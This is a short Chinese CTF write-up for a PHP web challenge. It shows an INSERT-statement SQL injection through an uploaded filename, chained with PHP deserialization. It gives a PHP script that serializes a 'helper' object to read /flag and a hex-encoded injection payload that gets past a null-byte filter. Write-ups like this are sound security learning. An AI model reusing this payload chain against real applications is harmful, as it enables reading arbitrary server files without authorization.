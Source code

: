 稍微审计一下代码会发现这一段存在**insert注入**(文件名可控

![image-20230101194739242](four.assets/image-20230101194739242.png)

而在这里利用了反序列化

![image-20230101194824997](four.assets/image-20230101194824997.png)

根据给出的类，可以构造出一个反序列化任意查看文件，盲猜flag在`/flag`，开始构造

![image-20230101195147082](four.assets/image-20230101195147082.png)

```php
<?php
class helper
{
    protected $ifview = True;
    protected $config = "/flag";
}
$a=new helper();
echo "0x".bin2hex(serialize($a));
```

由于使用的两个值是**protected**类型，而代码对`\x00`有过滤，所以用16进制绕过一下（**mysql会自动转为字符串的**

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.png
```

![image-20230101195202697](four.assets/image-20230101195202697.png)
